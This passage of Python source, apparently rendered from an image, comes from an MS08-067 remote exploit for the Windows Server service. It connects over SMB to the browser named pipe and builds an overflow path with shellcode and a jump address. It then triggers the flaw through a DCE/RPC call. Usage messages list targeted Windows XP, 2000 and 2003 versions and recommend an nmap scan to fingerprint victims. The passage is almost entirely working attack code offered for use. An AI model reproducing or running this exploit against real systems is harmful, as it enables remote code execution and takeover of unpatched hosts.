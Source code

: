 ```python
            self.__trans = transport.SMBTransport(remoteName='*SMBSERVER', remote_host='%s' % self.target, dstport = int(self.port), filename = '\\browser' )
        
        self.__trans.connect()
        print('[-]connected to ncacn_np:%s[\\pipe\\browser]' % self.target)
        self.__dce = self.__trans.DCERPC_class(self.__trans)
        self.__dce.bind(uuid.uuidtup_to_bin(
            ('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
        path = "\x5c\x00" + "ABCDEFGHIJ" * 10 + shellcode + "\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00" + \
            "\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00" + jumper + "\x00" * 2
        server = "\xde\xa4\x98\xc5\x08\x00\x00\x00\x00\x00\x00\x00\x08\x00\x00\x00\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00\x00\x00"
        prefix = "\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x5c\x00\x00\x00"
        
        # NEW HOTNESS
        # The Path Length and the "Actual Count" SMB parameter have to match.  Path length in bytes
        #   is double the ActualCount field.  MaxCount also seems to match.  These fields in the SMB protocol
        #   store hex values in reverse byte order.  So: 36 01 00 00  => 00 00 01 36 => 310.  No idea why it's "doubled"
        #   from 310 to 620.  620 = 410 shellcode + extra stuff in the path.
        MaxCount = "\x36\x01\x00\x00"  # Decimal 310. => Path length of 620.
        Offset = "\x00\x00\x00\x00"
        ActualCount = "\x36\x01\x00\x00" # Decimal 310. => Path length of 620

        self.__stub = server + MaxCount + Offset + ActualCount + \
            path + "\xE8\x03\x00\x00" + prefix + "\x01\x10\x00\x00\x00\x00\x00\x00"        

        return

    def run(self):
        self.__DCEPacket()
        self.__dce.call(0x1f, self.__stub)
        time.sleep(3)
        print('Exploit finish\n')

if __name__ == '__main__':
       try:
           target = sys.argv[1]
           os = sys.argv[2]
           port = sys.argv[3]
       except IndexError:
                print('\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0])
                print('Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445')
                print('Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)')
                print('Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal')
                print('Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English')
                print('Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)')
                print('Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)')
                print('Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)')
                print('')
                print('FYI: nmap has a good OS discovery script that pairs well with this exploit:')
                print('nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1')
```